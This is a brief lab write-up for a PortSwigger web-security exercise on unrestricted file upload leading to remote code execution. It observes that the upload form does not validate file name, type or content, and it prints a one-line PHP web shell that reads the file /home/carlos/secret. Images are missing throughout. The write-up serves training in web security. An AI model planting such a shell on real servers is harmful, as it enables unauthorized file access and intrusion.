






# Lab: simple case

**Link**: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

**Solution**:
Here is the file upload path

<p align="center" width="100%">
  
</p>

In this lab

There is no validation on

- file name
- content type
- file content

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>

To Read file content

```php
<?php echo file_get_contents("/home/carlos/secret") ?>
```

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>
